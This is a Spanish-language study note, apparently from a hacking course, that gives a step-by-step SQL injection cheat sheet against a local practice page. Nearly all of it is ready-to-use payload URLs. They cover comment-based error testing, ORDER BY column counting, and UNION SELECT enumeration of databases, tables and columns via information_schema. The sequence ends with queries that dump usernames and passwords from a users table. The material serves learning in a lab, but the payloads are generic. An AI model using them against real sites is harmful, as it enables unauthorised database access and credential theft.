 --------------
Tag: #errorsqli

-------------
Comentando una query mysql para ver si se producen errores:
```url
http://localhost/searchUsers.php?id=1'-- -
http://localhost/searchUsers.php?id=1'#
```

Podemos realizar un ordenamiento, pero lo primero que tenemos que saber es cuantas columnas:

```url
?id=3' order by 100-- -
# Por fuzzing vemos cuantas columnas tiene
?id=1' order by 1-- -
```

Con **union**, para cada columna le pones el valor que tu quieras ver. Siempre tiene que haber el mismo número de datos que se ponen con el union que columnas haya. En este caso como solo hay 1 columna solo podremos poner un dato. Con todo esto, si ponemos un usuario que no existe en la base de datos y nos sale el valor que hemos pues con la sentencia union, ya podríamos empezar con la sqli
```url
?id=1' union select 1-- -
localhost/searchUsers.php?id=hola' union select hola-- -
```

Listamos la base de datos que se está usando:
```url
localhost/searchUsers.php?id=hola' union select database()-- -
localhost/searchUsers.php?id=hola' union select schema_name from information_schema.schemata limit 0,1-- -
localhost/searchUsers.php?id=hola' union select group_concat(schema_name) from information_schema.schemata-- -
```
El uso de *group_concat* es para que en caso de que haya más de una tabla, nos liste todas en el output.
(Puede que las sentencias no te muestre todas las bases de datos que existen en el sistema, para ello se puede utilizar las dos últimas sentencias)

Una vez sabemos las bases de datos, pasamos a listar las tablas.
```url
localhost/searchUsers.php?id=hola' union select group_concat(table_name) from information_schema.tables where table_schema='hack4u'-- -
```

Listamos las columnas de las tabla users:
```url
localhost/searchUsers.php?id=hola' union select group_concat(column_name) from information_schema.columns where table_schema='hack4u' and table_name='users'-- -
```

Listamos las filas de la tabla después de saber las columnas:
```url
localhost/searchUsers.php?id=hola' union select group_concat(column_name) from information_schema.columns where table_schema='hack4u' and table_name='users'-- -
localhost/searchUsers.php?id=hola' union select group_concat(username) from hack4u.users-- -
localhost/searchUsers.php?id=hola' union select group_concat(username,':',password) from hack4u.users-- -
localhost/searchUsers.php?id=hola' union select group_concat(username,0x3a,password) from hack4u.users-- -
```
